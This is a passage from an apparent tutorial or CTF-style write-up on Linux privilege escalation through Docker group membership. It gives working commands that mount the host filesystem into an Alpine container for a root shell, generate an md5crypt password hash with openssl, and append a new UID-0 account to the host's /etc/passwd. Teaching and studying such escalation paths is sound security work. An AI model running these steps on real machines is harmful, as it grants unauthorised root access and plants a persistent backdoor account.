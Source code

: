 
Let's take a look to the command used to to get an interactive shell:     
**`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`**

The container is based on Alpine, a lightweight linux distribution, and the root directory "/" is accessible in the "/mnt" directory. It also spawns a shell and if you type "id" you will see you are granted with root privileges... although you are still in the container, not in the host machine.    
But hey, if you are trying to get the root flag in a CTF, you have it. 

* * * 
## 4- Exploiting The Vulnerability

Now we know everything about this, what should I do to exploit it properly ?

**1. Check if the active user can run the Docker daemon**   
If you can not run it, you will get something like this:


![noperm.png](noperm.png "noperm.png")



 

**2. Prepare a new root user.**     
The plan is to create a new root user by entering it directly in the **`/etc/passwd`** file.    
With openssl, I can generate a password hashed with md5crypt which is valid in Linux. I choose a user **`$rootname`** with the password **`$passw`** and the salt **`$salt`** to generate the password hash. These will be variables in the script but with real values it should look like this: 
~~~
user@linux:~$ openssl passwd -1 -salt evil newrootpass
$1$evil$eu2ySQGNgNghQm4ASTnKa.
~~~

**3. Prepare a file `new_account` that contains the line I want to add to `/etc/passwd` on the host machine.**  
This line will look like this:
```
user@linux:~$ cat new_account
newroot:$1$evil$eu2ySQGNgNghQm4ASTnKa.:0:0:root:/root:/bin/bash 
```

**4. Run the container with a volume mounted making both the file `new_account` and `/etc/passwd` accessible from the container:**      
```
docker run -tid -v /:/mnt/ --name flast101 alpine
```

**5. Execute a bash command in the container that will add the new root user to the /etc/passwd file:**    
```
docker exec -ti flast101 sh -c "cat /mnt/tmp/new_account >> /mnt/etc/passwd"
```
